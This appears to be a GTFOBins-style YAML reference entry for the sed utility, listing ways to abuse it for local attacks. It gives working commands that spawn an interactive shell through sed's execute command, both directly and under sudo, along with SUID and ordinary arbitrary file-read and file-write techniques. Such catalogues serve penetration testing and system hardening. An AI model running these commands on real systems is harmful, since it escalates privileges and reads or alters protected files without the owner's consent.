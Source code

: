```yaml
---
functions:
  execute-interactive:
    - code: sed "e /bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
  sudo-enabled:
    - code: sudo sed "e /bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
  suid-enabled:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  file-read:
    - code: |
        LFILE=file_to_read
        sed -e '' "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo x | sed "s/x/data/;w $LFILE"
---
```

